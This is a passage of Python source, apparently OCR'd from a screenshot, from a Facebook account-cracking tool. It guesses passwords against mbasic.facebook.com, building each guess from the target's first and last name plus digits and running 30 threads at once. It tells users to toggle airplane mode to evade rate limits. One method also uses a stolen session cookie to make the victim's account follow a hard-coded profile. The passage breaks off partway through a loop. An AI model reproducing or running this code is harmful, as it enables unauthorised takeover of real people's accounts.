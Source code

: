     def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100081551637020', cookies={'cookie': coki}).text, 'html.parser')
        get = r.find('a', string='Ikuti').get('href')
        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

    def __pler__(self):
        print('[1] Crack With Auto Pass ')
        print('[2] Crack With Name Digit Pass')
        chi = input('\n [?] Choose: ')
        if chi == '':
            print('\nSelect Correct One')
            self.__pler__()
        elif chi in ('1', '01'):
            os.system("clear")
            print(logo)
            print("\033[1;31m\r Use flight (airplane) mode before use\033[1;37m")
            print(47*"-")
            print('\033[1;37m Total Auto file IDs : %s ' % len(self.id))
            print('\033[1;37m Cracking Started...')
            print(47*"-")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        first, last = name.split(' ')
                        firstl = first.lower()
                        lastl = last.lower()
                        firsts = first.capitalize()
                        lasts = last.capitalize()
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                        else:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")
                    except:
                        pass
            hasil(ok,cp)
        elif chi in ('2', '02'):
            os.system("clear")
            print(logo)
            print("\033[1;37m\rEnter Last Name Digits\033[1;37m\n")
            p1 = input('  Name + 1 : ')
            p2 = input('  Name + 2 : ')
            p3 = input('  Name + 3 : ')
            p4 = input('  Name + 4 : ')
            os.system("clear")
            print(logo)
            print("\033[1;31m\rUse flight (airplane) mode before use\033[1;37m")
            print(47*"-")
            print('\033[1;37m Total IDs : %s ' % len(self.id))
            print('\033[1;37m Cracking Started...')
            print(47*"-")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]